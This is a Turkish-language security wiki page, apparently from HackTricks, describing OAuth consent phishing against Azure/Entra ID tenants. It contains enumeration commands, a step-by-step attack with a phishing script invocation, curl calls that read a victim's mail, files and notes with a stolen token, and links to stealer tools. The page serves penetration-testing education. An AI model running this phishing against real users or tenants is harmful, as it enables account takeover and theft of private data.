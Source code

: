 # Az - OAuth Apps Phishing

{{#include ../../../banners/hacktricks-training.md}}

## OAuth Uygulama Phishing

**Azure Uygulamaları**, bir kullanıcının uygulamaya onay verdiğinde kullanabileceği izinlerle yapılandırılmıştır (örneğin dizini listeleme, dosyalara erişim veya diğer işlemleri gerçekleştirme). Uygulamanın kullanıcı adına hareket edeceğini unutmayın, bu nedenle uygulama yönetim izinleri talep etse bile, eğer **kullanıcı onay vermiyorsa bu izne sahip değilse**, uygulama **yönetimsel işlemleri gerçekleştiremeyecektir**.

### Uygulama onay izinleri

Varsayılan olarak, herhangi bir **kullanıcı uygulamalara onay verebilir**, ancak bu, kullanıcıların yalnızca **seçilen izinler için doğrulanmış yayıncılardan uygulamalara onay verebileceği** veya kullanıcıların uygulamalara onay verme iznini **kaldırabileceği** şekilde yapılandırılabilir.

<figure><img src="../../../images/image.png" alt=""><figcaption></figcaption></figure>

Eğer kullanıcılar onay veremiyorsa, `GA`, `Uygulama Yöneticisi` veya `Bulut Uygulama` `Yöneticisi` gibi **yöneticiler**, kullanıcıların kullanabileceği **uygulamalara onay verebilir**.

Ayrıca, eğer kullanıcılar yalnızca **düşük riskli** izinlere sahip uygulamalara onay verebiliyorsa, bu izinler varsayılan olarak **openid**, **profil**, **email**, **User.Read** ve **offline_access**'dir, ancak bu listeye **daha fazlasını eklemek** mümkündür.

Eğer tüm uygulamalara onay verebiliyorlarsa, tüm uygulamalara onay verebilirler.

### 2 Tür saldırı

- **Kimlik doğrulaması yapılmamış**: Dış bir hesaptan, örneğin `User.Read` ve `User.ReadBasic.All` gibi **düşük riskli izinlerle** bir uygulama oluşturun, bir kullanıcıyı phishing yapın ve dizin bilgilerine erişebileceksiniz.
- Bu, phishing yapılan kullanıcının **dış kiracıdan OAuth uygulamalarını kabul edebilmesi** gerektirir.
- Eğer phishing yapılan kullanıcı, **herhangi bir izinle herhangi bir uygulamaya onay verebilen** bir yönetici ise, uygulama **ayrılmış izinler talep edebilir**.
- **Kimlik doğrulaması yapılmış**: Yeterli ayrıcalıklara sahip bir anahtarı ele geçirdikten sonra, **hesap içinde bir uygulama oluşturun** ve **ayrılmış** OAuth izinlerini kabul edebilen bazı **ayrılmış** kullanıcıları **phishing** yapın.
- Bu durumda, dizin bilgilerine zaten erişebiliyorsunuz, bu nedenle `User.ReadBasic.All` izni artık ilginç değildir.
- **Yönetici tarafından verilmesi gereken izinlerle** ilgileniyorsunuz, çünkü sıradan bir kullanıcı OAuth uygulamalarına herhangi bir izin veremez, bu yüzden yalnızca **bu kullanıcıları phishing yapmanız gerekir** (bu ayrıcalığı hangi roller/izinlerin verdiği hakkında daha fazla bilgi daha sonra).

### Kullanıcıların onay vermesine izin verilir

Bu komutu kiracı içindeki bir kullanıcıdan çalıştırmanız gerektiğini unutmayın, dış bir kiracıdan bu yapılandırmayı bulamazsınız. Aşağıdaki cli, kullanıcıların izinlerini anlamanıza yardımcı olabilir:
```bash
az rest --method GET --url "https://graph.microsoft.com/v1.0/policies/authorizationPolicy"
```
- Kullanıcılar tüm uygulamalara onay verebilir: Eğer **`permissionGrantPoliciesAssigned`** içinde: `ManagePermissionGrantsForSelf.microsoft-user-default-legacy` bulursanız, kullanıcılar her uygulamayı kabul edebilir.
- Kullanıcılar, yalnızca seçtiğiniz izinler için doğrulanmış yayıncılardan veya kuruluşunuzdan gelen uygulamalara onay verebilir: Eğer **`permissionGrantPoliciesAssigned`** içinde: `ManagePermissionGrantsForOwnedResource.microsoft-dynamically-managed-permissions-for-team` bulursanız, kullanıcılar her uygulamayı kabul edebilir.
- **Kullanıcı onayını devre dışı bırak**: Eğer **`permissionGrantPoliciesAssigned`** içinde yalnızca: `ManagePermissionGrantsForOwnedResource.microsoft-dynamically-managed-permissions-for-chat` ve `ManagePermissionGrantsForOwnedResource.microsoft-dynamically-managed-permissions-for-team` bulursanız, kullanıcılar hiçbirine onay veremez.

Yorumlanan politikaların her birinin anlamını bulmak mümkündür:
```bash
az rest --method GET --url "https://graph.microsoft.com/v1.0/policies/permissionGrantPolicies"
```
### **Uygulama Yöneticileri**

Yeni uygulamaları kabul edebilen uygulama yöneticisi olarak kabul edilen kullanıcıları kontrol edin:
```bash
# Get list of roles
az rest --method GET --url "https://graph.microsoft.com/v1.0/directoryRoles"

# Get Global Administrators
az rest --method GET --url "https://graph.microsoft.com/v1.0/directoryRoles/1b2256f9-46c1-4fc2-a125-5b2f51bb43b7/members"

# Get Application Administrators
az rest --method GET --url "https://graph.microsoft.com/v1.0/directoryRoles/1e92c3b7-2363-4826-93a6-7f7a5b53e7f9/members"

# Get Cloud Applications Administrators
az rest --method GET --url "https://graph.microsoft.com/v1.0/directoryRoles/0d601d27-7b9c-476f-8134-8e7cd6744f02/members"
```
## **Saldırı Akışının Genel Görünümü**

Saldırı, genel bir şirketi hedef alan birkaç adım içerir. İşte nasıl gelişebileceği:

1. **Alan Adı Kaydı ve Uygulama Barındırma**: Saldırgan, güvenilir bir siteyi andıran bir alan adı kaydeder, örneğin "safedomainlogin.com". Bu alan adı altında, yetkilendirme kodlarını yakalamak ve erişim token'ları talep etmek için tasarlanmış bir uygulamayı barındırmak üzere bir alt alan adı oluşturulur (örneğin, "companyname.safedomainlogin.com").
2. **Azure AD'de Uygulama Kaydı**: Saldırgan, hedef şirketin adını vererek Azure AD Kiracısında Çoklu Kiracı Uygulaması kaydeder, böylece meşru görünür. Uygulamanın Yönlendirme URL'sini, kötü niyetli uygulamayı barındıran alt alan adına işaret edecek şekilde yapılandırır.
3. **İzinlerin Ayarlanması**: Saldırgan, uygulamayı çeşitli API izinleriyle (örneğin, `Mail.Read`, `Notes.Read.All`, `Files.ReadWrite.All`, `User.ReadBasic.All`, `User.Read`) ayarlar. Bu izinler, kullanıcı tarafından verildiğinde, saldırgana kullanıcının adına hassas bilgileri çıkarmasına olanak tanır.
4. **Kötü Amaçlı Bağlantıların Dağıtılması**: Saldırgan, kötü niyetli uygulamanın istemci kimliğini içeren bir bağlantı hazırlar ve bunu hedeflenen kullanıcılara paylaşarak onların onay vermelerini sağlar.

## Örnek Saldırı

1. **Yeni bir uygulama** kaydedin. Eğer saldırıya uğrayan dizinden bir kullanıcı kullanıyorsanız yalnızca mevcut dizin için olabilir veya bu bir dış saldırıysa herhangi bir dizin için olabilir (aşağıdaki resimdeki gibi).
1. Ayrıca **yönlendirme URI'sini** almak istediğiniz kodu alacağınız beklenen URL'ye ayarlayın (`http://localhost:8000/callback` varsayılan olarak).

<figure><img src="../../../images/image (1).png" alt=""><figcaption></figcaption></figure>

2. Ardından bir uygulama sırrı oluşturun:

<figure><img src="../../../images/image (2).png" alt=""><figcaption></figcaption></figure>

3. API izinlerini seçin (örneğin, `Mail.Read`, `Notes.Read.All`, `Files.ReadWrite.All`, `User.ReadBasic.All`, `User.Read`)

<figure><img src="../../../images/image (3).png" alt=""><figcaption></figcaption></figure>

4. **İzinleri isteyen web sayfasını (**[**azure_oauth_phishing_example**](https://github.com/carlospolop/azure_oauth_phishing_example)**)** çalıştırın:
```bash
# From https://github.com/carlospolop/azure_oauth_phishing_example
python3 azure_oauth_phishing_example.py --client-secret <client-secret> --client-id <client-id> --scopes "email,Files.ReadWrite.All,Mail.Read,Notes.Read.All,offline_access,openid,profile,User.Read"
```
5. **URL'yi kurbanın gönderin**
1. Bu durumda `http://localhost:8000`
6. **Kurbanlar** **isteği kabul etmelidir:**

<figure><img src="../../../images/image (4).png" alt=""><figcaption></figcaption></figure>

7. **İstenen izinlere erişmek için erişim jetonunu kullanın**:
```bash
export ACCESS_TOKEN=<ACCESS_TOKEN>

# List drive files
curl -X GET \
https://graph.microsoft.com/v1.0/me/drive/root/children \
-H "Authorization: Bearer $ACCESS_TOKEN" \
-H "Accept: application/json"

# List eails
curl -X GET \
https://graph.microsoft.com/v1.0/me/messages \
-H "Authorization: Bearer $ACCESS_TOKEN" \
-H "Accept: application/json"

# List notes
curl -X GET \
https://graph.microsoft.com/v1.0/me/onenote/notebooks \
-H "Authorization: Bearer $ACCESS_TOKEN" \
-H "Accept: application/json"
```
## Diğer Araçlar

- [**365-Stealer**](https://github.com/AlteredSecurity/365-Stealer)**:** Bunu yapılandırmayı öğrenmek için [https://www.alteredsecurity.com/post/introduction-to-365-stealer](https://www.alteredsecurity.com/post/introduction-to-365-stealer) adresini kontrol edin.
- [**O365-Attack-Toolkit**](https://github.com/mdsecactivebreach/o365-attack-toolkit)

## Sonrası-İstismar

### Phishing Sonrası-İstismar

İstenen izinlere bağlı olarak, **kiracının farklı verilerine erişim sağlayabilirsiniz** (kullanıcıları, grupları listeleme... veya hatta ayarları değiştirme) ve **kullanıcının bilgilerine** (dosyalar, notlar, e-postalar...) erişebilirsiniz. Ardından, bu izinleri bu eylemleri gerçekleştirmek için kullanabilirsiniz.

### Uygulama Sonrası İstismar

Sayfanın Uygulamalar ve Hizmet Prensibi bölümlerini kontrol edin:

{{#ref}}
../az-privilege-escalation/az-entraid-privesc/
{{#endref}}

## Referanslar

- [https://www.alteredsecurity.com/post/introduction-to-365-stealer](https://www.alteredsecurity.com/post/introduction-to-365-stealer)
- [https://swisskyrepo.github.io/InternalAllTheThings/cloud/azure/azure-phishing/](https://swisskyrepo.github.io/InternalAllTheThings/cloud/azure/azure-phishing/)

{{#include ../../../banners/hacktricks-training.md}}
